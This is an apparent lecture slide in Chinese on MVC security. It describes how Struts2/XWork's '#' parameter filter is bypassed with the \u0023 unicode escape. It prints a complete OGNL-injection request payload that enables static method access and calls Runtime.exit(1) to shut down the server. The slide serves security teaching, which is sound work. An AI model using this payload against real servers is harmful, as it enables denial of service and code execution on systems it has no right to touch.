

# MVC安全
Struts2漏洞：

为了防范篡改服务器端对象,XWork的ParametersInterceptor不允
许参数名中出现“#”字符,但如果使用了Java的 unicode字符串表
示\u0023,攻击者就可以绕过保护,修改保护Java方式执行的值:

?('\u0023_memberAccess[\'allowStaticMethodAccess\']')(me
h)=true&(aaa)(('\u0023context[\'xwork.MethodAccessor.den
yMethodExecution\']\u003d\u0023foo')(\u0023foo\u003dne
w%20java.lang.Boolean("false")))&(asdf)(('\u0023rt.exit(1)')(\
u0023rt\u003d@java.lang.Runtime@getRuntime()))=1